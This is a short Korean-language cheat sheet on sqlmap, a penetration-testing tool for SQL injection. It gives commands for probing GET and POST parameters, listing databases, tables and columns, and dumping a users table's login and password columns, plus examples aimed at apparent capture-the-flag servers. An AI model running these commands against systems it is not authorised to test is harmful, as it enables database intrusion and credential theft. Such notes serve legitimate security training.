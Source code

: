 # 개념
공개 모의침투 도구로 SQL구문삽입(SQL Injection) 취약점을 탐지/진단하고 데이터베이스에 직간접적으로 접근할 수 있는 취약점 분석 도구

# 사용법
GET 방식 입력값 점검

	sqlmap -u "http://192.168.23.131/cat.php?id=1"

데이터베이스 목록 조회

	sqlmap -u "http://192.168.23.131/cat.php?id=1" --dbs

쿠키값이 필요할 경우

	sqlmap -u "http://211.250.216.249:5080/board/write.php" --cookie="PHPSESSID=3i43aetq32fb1ft32el5591m75;" --data "title=Test%20Title&content=This%20is%20a%20test%20content."

테이블 목록 조회

	sqlmap -u "http://192.168.23.131/cat.php?id=1" -D photoblog --tables

컬럼 목록 조회

	sqlmap -u "http://192.168.23.131/cat.php?id=1" -D photoblog -T users --columns

테이블 내용 덤프

	sqlmap -u "http://192.168.23.131/cat.php?id=1" -D photoblog -T users --columns

	sqlmap -u "http://192.168.23.131/cat.php?id=1" -D photoblog -T users -C "login,password" --dump

POST 방식 입력값 점검

	sqlmap -u "http://192.168.23.131/admin/index.php" --data "user=USER&password=PASS"

실시간 반영
이전 실행 결과을 저장했다가 동일한 명령이 오면 다시 사용하기 때문에 실시간 정보가 필요하다면 사용해야 한다

	sqlmap --flush-session -u ....

# 예시
	sqlmap -u "http://20.200.213.108:60002/login.php" -D "flag" --tables -data "uname=a&pw=a&submit=submit"
	sqlmap -u "http://20.214.183.146:1337/topic.php?id=33" -D "flag" --tables 
	sqlmap -u "http://211.250.216.249:5080/board/write.php" --cookie="PHPSESSID=3i43aetq32fb1ft32el5591m75;" --data "title=Test%20Title&content=This%20is%20a%20test%20content."
	sqlmap -u "http://20.196.196.147:5080/login/login.php" --data "userid=a&userpw=b"
